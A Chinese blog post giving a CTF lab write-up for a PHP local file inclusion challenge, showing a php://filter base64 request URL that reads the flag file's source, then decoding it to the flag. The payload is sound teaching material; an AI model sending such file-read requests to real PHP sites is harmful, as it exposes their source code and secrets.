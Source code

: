 ```yaml
---
layout: post
title:  "CTF实验18lfi题解"
date:   2023-03-24 12:34:58
categories: CTF
tags: 网络安全 CTF lfi
author: NanKe
---
```


* content
{:toc}
> 记录网安实验-CTF实验-18lfi题解



# 问题描述

lfi，提交flag格式为：nuaactf{}，考点：文件包含，题目描述`如下图所示`：
![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241230283.png)

启动靶机，如`下图所示`：
![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231972.png)

---

# 问题分析：

> 首先应该判断出服务端使用的是PHP，然后采用PHP漏洞`php://filter协议在任意文件读取`，读取真正存在flag的PHP文件。对读取的PHP文件进行代码审计，对相关代码进行对应编码和解码操作即可得到正确的flag

---

# 解决方案：

- 重新组装靶机请求地址为：`http://39116871.clsadp.com/?file=php://filter/read=convert.base64-encode/resource=flag`

访问结果`如下图所示`：
![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231663.png)

- 此时已经得到Base64编码的文件内容，此时使用Base64进行解码操作，得到PHP文件内容如下所示：

```php
<?php

// this is the real flag!
// congratulations!
$flag = urldecode(base64_decode('bnVhYWN0ZiU3QnRyeWluZ18yX3VzZV9MRklfeWVhaF8lMjElN0Q='));

?>
nuaactf{this_is_the_fake_flag}
<br><br>
Sorry, this is not the real flag.
```

- 代码审计后，明白flag是由`bnVhYWN0ZiU3QnRyeWluZ18yX3VzZV9MRklfeWVhaF8lMjElN0Q=`字符串进行Base64解码后，使用URL解码得到

- 具体过程如下所示：
  对得到的文件内容进行Base64解码操作，`如下图所示`：
  ![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231726.png)
  此时已经得到PHP源码，进行代码审计，对`bnVhYWN0ZiU3QnRyeWluZ18yX3VzZV9MRklfeWVhaF8lMjElN0Q=`字符串进行Base64解码，`如下图所示`：
  ![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231721.png)
  最后对`nuaactf%7Btrying_2_use_LFI_yeah_%21%7D`进行URL解码，得到正确的`nuaactf{trying_2_use_LFI_yeah_!}`，`如下图所示`：
  ![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231560.png)

# 参考资料：

>csdn博客：https://blog.csdn.net/L2329794714/article/details/121288668
>Base64在线解码编码工具：https://base64.us/
>URL在线解码编码工具：https://meyerweb.com/eric/tools/dencoder/